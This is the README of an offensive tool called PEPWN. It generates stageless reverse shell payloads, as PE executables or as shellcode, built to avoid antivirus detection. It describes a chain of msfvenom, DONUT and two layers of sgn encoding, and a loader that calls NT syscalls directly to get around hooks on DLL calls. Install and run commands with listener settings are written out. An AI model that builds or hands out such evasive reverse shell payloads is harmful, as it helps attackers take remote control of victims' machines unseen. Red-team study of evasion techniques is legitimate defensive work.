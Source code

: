 # PEPWN
PEPWN is a multi chained tool that has a goal to generate an undetectable reverse shell payload in different formats (PE, shellcode). The payload is stageless and it works without the need of Metasploit Handler, it just needs a TCP listener (using netcat).


## Overview

>The creation of the payload in PEPWN is composed of 5 steps:

- [x] it generate a payload with msfvenom.
- [x] It uses the [DONUT](https://github.com/TheWover/donut/) project. That will convert the generated EXE payload and extract shellcode from it. It's just a project to facilitate extracting shellcodes from executable binaries
- [x] Using the same project DONUT, the tool will apply an encoding logic on the generated payload. But the logic implemented by DONUT is going to get statically detectable because it's using a static pattern of encryption/encoding with a static key. That's why I used a second layer of encoding.
- [x] apply 2nd layer of encoding using [sgn](https://github.com/egebalci/sgn/). sgn encodes shellcodes using LSFR algorithm with random key in every compilation.
- [x] transfer it into a shellcode format of use ex: (base64, hex string, and raw data), or create exe file that triggers the shellcode using syscalls.

If the user chooses to create exe file, the tool prepares a c++ file that invokes that shellcode with using syscalls instead of dll calls. For example instead of using "VirtualAlloc" dll call, it uses "NtAllocateVirtualMemory" syscall because the defender can easilly hook dll calls and detect the call to "VirtualAlloc" and consider it as malicious action.

## Installation

>Go to /root directory 

```
git clone https://github.com/0xx7/PEPWN.git
```
Once you download the project, build the dependencies using the following command, however make sure you are running as root:
```
./build.sh
```
Then, to run it with the manual/options add -H  
```
./wrapper -H
```
Example:

```
./wrapper.sh -f 1 -h 127.0.0.1 -p 4444
```

## Documentation

Usage: ./wrapper.sh <OPTIONS>
 
 OPTIONS are:
 
 -f : format/Mode (1 for .exe PE file <DEFAULT> ; 2 for shellcode)
 
 -t : type of shellcode. 1 for raw data ; 2 for base64encoded data ; 3 for big endian hex encoded string. (only if format is 2 otherwise this will be ignored)
 
 -h : host/ip/domain of the listener
 
 -p : port of the listener
 
 -H : help documentation
 
 Example: ./wrapper.sh -f 1 -h 127.0.0.1 -p 4444


## How to use

https://youtu.be/SYriAv_FPAg



